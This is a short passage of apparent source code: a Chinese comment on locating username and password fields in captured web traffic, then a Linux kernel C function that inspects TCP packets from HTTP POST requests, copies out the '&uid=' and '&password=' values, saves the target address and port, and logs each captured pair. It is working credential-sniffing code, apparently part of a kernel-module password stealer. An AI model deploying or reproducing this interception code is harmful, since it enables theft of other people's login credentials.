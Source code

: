 使用字符串匹配，找到代表username、password的字段，通过网页源码或抓包确定变量名，cookie字段中也有uid和password，但没有&   
```c
    static void check_http(struct sk_buff *skb)
    {
        struct tcphdr *tcp;
        char *data;
        char *name;
        char *passwd;
        char *_and;
        char *check_connection;
        int len,i;
        tcp = tcp_hdr(skb);
        data = (char *)((unsigned long)tcp + (unsigned long)(tcp->doff * 4));

        if (strstr(data,"Connection") != NULL && strstr(data, "&uid") != NULL && strstr(data, "&password") != NULL) 
        {
            check_connection = strstr(data,"Connection");
            printk("find connection uid password");

            name = strstr(check_connection,"&uid=");
            name += 5;
            _and = strstr(name,"&");
            len = _and - name;
            if ((username = kmalloc(len + 2, GFP_KERNEL)) == NULL)
                return;
            memset(username, 0x00, len + 2);
            for (i = 0; i < len; ++i)
            {
                *(username + i) = name[i];
            }
            *(username + len) = '\0';

            passwd = strstr(name,"&password=");
            passwd += 10;
            _and = strstr(passwd,"&");
            len = _and - passwd;
            if ((password = kmalloc(len + 2, GFP_KERNEL)) == NULL)
                return;
            memset(password, 0x00, len + 2);
            for (i = 0; i < len; ++i)
            {
                *(password + i) = passwd[i];
            }
                *(password + len) = '\0';
            } else {
                printk("it`s not a http post");
            return;
        }

        if (!target_ip)
            target_ip = ip_hdr(skb)->daddr;
        if (!target_port)
            target_port = tcp->source;
        if (username && password)
            have_pair++; 
        if (have_pair)
            printk("Have a uid&pwd pair! U: %s P: %s\n", username, password);
    }

 ```
 